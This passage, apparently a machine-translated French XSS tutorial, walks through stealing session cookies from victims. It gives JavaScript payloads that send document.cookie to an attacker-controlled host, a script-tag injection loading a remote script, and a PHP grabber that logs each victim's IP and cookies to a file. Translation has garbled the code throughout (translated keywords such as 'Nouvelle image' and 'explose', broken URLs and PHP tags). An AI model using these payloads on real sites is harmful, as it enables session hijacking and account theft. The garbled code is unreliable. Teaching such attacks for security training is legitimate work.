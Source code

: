 Code: JavaScript

```
document.location = 'http: //our_ip/index.php? c =' + document.cookie;
Nouvelle image () .src = 'http: //our_ip/index.php? c =' + document.cookie;
```

L'utilisation de l'une des deux charges utiles devrait fonctionner pour nous envoyer un cookie, mais nous utiliserons le second, car il ajoute simplement une image à la page, qui peut ne pas être très malveillante, tandis que la première navigue vers notre cookie Grabber PHP Page, qui peut sembler suspecte.

Nous pouvons écrire l'une de ces charges utiles JavaScript sur `script.js`, qui sera également hébergée sur notre machine virtuelle:

Code: JavaScript

```
nouvelle image () .src = 'http: //our_ip/index.php? c =' + document.cookie
```

Maintenant, nous pouvons modifier l'URL dans la charge utile XSS que nous avons trouvé plus tôt pour utiliser `script.js` (« n'oubliez pas de remplacer notre_IP par votre IP VM dans le script JS et la charge utile XSS »):

Code: HTML

```
<script src = http: //our_ip/script.js> </ script>
```

Avec notre serveur PHP en cours d'exécution, nous pouvons désormais utiliser le code dans le cadre de notre charge utile XSS, l'envoyer dans le champ de saisie vulnérable et nous devons passer un appel à notre serveur avec la valeur cookie. Cependant, s'il y avait beaucoup de cookies, nous ne savons peut-être pas quelle valeur de cookie appartient à quel en-tête de biscuits. Ainsi, nous pouvons écrire un script PHP pour les diviser avec une nouvelle ligne et les écrire dans un fichier. Dans ce cas, même si plusieurs victimes déclenchent l'exploit XSS, nous recevrons tous leurs cookies commandés dans un dossier.

Nous pouvons enregistrer le script PHP suivant sous le nom de `index.php` et redémarrer le serveur PHP:

Code: php

```
<? Php
if (isset ($ _ get ['c'])) {
     $ list = explose (";", $ _get ['c']);
     foreach ($ list as $ key => $ valeur) {
         $ cookie = urlDECODE ($ VALEUR);
         $ file = fopen ("cookies.txt", "a +");
         fputs ($ file, "victime ip: {$ _server ['Remote_addr']} | cookie: {$ cookie} \ n");
         fclose (fichier $);
     }
}
?>
```

Maintenant, nous attendons que la victime visite la page vulnérable et affiche notre charge utile XSS. Une fois qu'ils le feront, nous obtiendrons deux demandes sur notre serveur, une pour `script.js`, qui à son tour fera une autre demande avec la valeur cookie:
